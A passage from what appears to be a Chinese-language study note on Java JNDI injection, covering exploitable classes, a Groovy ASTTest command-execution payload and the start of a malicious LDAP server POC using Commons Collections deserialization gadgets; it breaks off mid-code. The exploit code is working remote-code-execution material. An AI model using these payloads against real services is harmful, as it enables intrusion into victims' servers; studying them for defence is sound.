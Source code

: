 至于其执行命令的语句，实际上是EL表达式，这部分我还没学习，等到以后学到EL表达式时再深入研究。不过我们也可以看到，在利用链中最关键的是要找到一个符合以下要求的利用类：

- JDK或者常用库的类
- 有public修饰的无参构造方法
- public修饰的只有一个String.class类型参数的方法，且该方法可以造成漏洞

除了我们上面利用的ELProcessor，一般还可以尝试利用`GroovyClassLoader#parseClass`来执行命令，核心POC变化为：

```java
ref.add(new StringRefAddr("forceString", "x=parseClass"));
String script = String.format("@groovy.transform.ASTTest(value={\nassert java.lang.Runtime.getRuntime().exec(\"%s\")\n})\ndef faster\n", "open -a Calculator");
ref.add(new StringRefAddr("x",script));
```

此外，[这篇文章](https://tttang.com/archive/1405/)中还探究了许多可用的利用类。

## 使用LDAP触发本地Gadget

当受害者本地存在可用的反序列化利用链时，可以用LDAP服务来触发反序列化：

这里我们还是根据POC进行正向调试：

```java
//LDAP 服务
import com.unboundid.ldap.sdk.LDAPException;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import com.unboundid.util.Base64;
import java.text.ParseException;
import java.util.HashMap;
import java.util.Map;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class JNDI_LDAP {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] args ) {
        int port = 1389;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
```